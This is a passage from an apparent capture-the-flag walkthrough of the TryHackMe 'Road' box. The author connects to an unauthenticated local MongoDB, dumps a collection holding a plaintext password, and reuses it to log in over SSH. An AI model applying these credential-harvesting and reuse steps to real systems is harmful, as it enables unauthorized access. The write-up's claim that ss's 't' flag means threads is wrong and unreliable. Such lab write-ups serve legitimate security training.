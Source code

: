I didn't know about the `ss -tl` command. The ss command lists the socket statistics and what is running on the ports. 27017 is the default port for MongoDB. The flags `t` and `l` are for threads and listening.

I connected to the database and started looking at the data stored there.

```
$ mongo 127.0.0.1
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("50a20812-d2e3-4c20-9eff-7171a7454913") }
MongoDB server version: 4.4.6
show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
```
```
show collections
collection
user
db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

I got creds for the webdeveloper user. I tried it with SSH, and it connected.

```
┌──(kali㉿kali)-[~/Desktop/THM/Road]
└─$ ssh webdeveloper@10.10.135.189
The authenticity of host '10.10.135.189 (10.10.135.189)' can't be established.
ED25519 key fingerprint is SHA256:yVQBxl1jOYRuf8zadoM2eJFmcAC2AQN8G/xKyzmPE5Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.135.189' (ED25519) to the list of known hosts.
webdeveloper@10.10.135.189's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 02 Sep 2024 03:45:56 PM UTC

  System load:  0.0               Processes:             108
  Usage of /:   60.2% of 9.78GB   Users logged in:       0
  Memory usage: 61%               IPv4 address for eth0: 10.10.135.189
  Swap usage:   0%


185 updates can be installed immediately.
100 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Fri Oct  8 10:52:42 2021 from 192.168.0.105
webdeveloper@sky:~$ 
```